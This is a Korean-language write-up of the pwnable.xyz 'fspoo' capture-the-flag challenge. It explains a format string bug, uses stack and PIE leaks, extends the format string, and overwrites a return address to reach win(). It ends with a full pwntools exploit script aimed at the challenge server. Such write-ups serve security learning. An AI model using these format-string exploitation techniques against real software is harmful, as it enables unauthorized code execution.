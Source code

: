 # [pwnable.xyz] fspoo

> Emojis on the rise

## The Bug

![image](https://github.com/user-attachments/assets/f03b7b20-6fe3-4136-bfc8-5b7bdfac8c1c)

![image](https://github.com/user-attachments/assets/5a892b41-3a0f-46c0-9fa1-df1015860d8f)

`fmt`는 `%s` 앞에 7바이트가 추가된 format string이다.

![image](https://github.com/user-attachments/assets/3fa433f2-9b82-483f-a310-a6519148405a)

`cmd[0x30]`에는 최대 `0x1f`바이트까지 입력할 수 있기 때문에 `sprintf()`로 `cmd`에 복사되는 문자열의 길이는 최대 `0x26`바이트이다.

![image](https://github.com/user-attachments/assets/7dc5a19c-9a61-4526-842b-58cd1986a26d)

따라서 `cmd[0x20]`부터는 임의의 문자열로 채울 수 있고, format string bug가 발생한다.

## Exploit

### Get stack address

`vuln()`의 SFP (`main()`의 `ebp`)를 leak하여 stack address를 구할 수 있다.

![image](https://github.com/user-attachments/assets/1dfe18f2-3387-44a3-ada1-cc3d02ee08d4)

### Get PIE base

`vuln()`의 return address를 leak하여 PIE base를 구할 수 있다.

![image](https://github.com/user-attachments/assets/d2c19f5d-845e-4c77-a074-11ead0357e04)

### Arbitrary address write

![image](https://github.com/user-attachments/assets/53a95635-22fb-4f86-8e65-c0ffb0d07973)

`op`를 이용하여 스택에 임의의 4바이트 값(주소)을 쓸 수 있고, `%n`을 사용하여 이 주소에 값을 쓸 수 있다.

![image](https://github.com/user-attachments/assets/9e5bd8a7-05d9-4e49-ad58-5bf16fea1758)

![image](https://github.com/user-attachments/assets/644b90cc-9572-4593-b370-0cccab08ece5)

### Extend format string

`vuln()`의 return address를 `win()`으로 덮을 수 있다면 바로 플래그를 획득할 수 있지만, format string이 6바이트로 제한되기 때문에 불가능하다. 그래서 먼저 format string의 길이를 늘려 주어야 한다.

![image](https://github.com/user-attachments/assets/7fe624a7-6412-451b-823e-ea1ef0e1d057)

빨간 박스 부분에 null byte가 없도록 채우면 뒤쪽의 `0x1f`바이트도 format string으로 연결된다. 이 길이는 `vuln()`의 return address를 덮기에 충분하다.

### Full code

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30010)

sla = r.sendlineafter
sa = r.sendafter


def edit_name(name):
    sla(b"> ", b"1")
    sa(b"Name: ", name)


def prep_msg():
    sla(b"> ", b"2")


def print_msg():
    sla(b"> ", b"3")


# leak stack address
sa(b"Name: ", b"a" * 0x19 + b"%10$p")
prep_msg()
ebp = int(r.recvn(10)[2:], 16)  # ebp of main()
log.info(f"ebp of vuln(): {hex(ebp)}")

# leak pie
edit_name(b"a" * 0x19 + b"%11$p")
prep_msg()
pie = int(r.recvn(10)[2:], 16) - 0xA77  # pie base
log.info(f"pie base: {hex(pie)}")
cmd = pie + 0x2040
win = pie + 0x9FD

# extend format string
edit_name(b"a" * 0x19 + b"a%6$hn")
sla(b"> ", str((cmd & 0xFFFFFF00) + 2).encode())
for i in range(0x26, 0x30):
    sla(b"> ", str(cmd + i).encode())

# overwrite return address of vuln()
sla(b"> ", str(((ebp - 0xC) & 0xFFFFFF00) + 1 - 0x100000000).encode())
sa(b"Name: ", f"%{str((win & 0xffff) - 0xb)}c%6$hn\x00".encode())
sla(b"> ", str(ebp - 0xC - 0x100000000).encode())

# return vuln() => call win()
sla(b"> ", b"0")

r.interactive()
```

![image](https://github.com/user-attachments/assets/f2703474-59f4-4618-b209-4514e01a1acd)

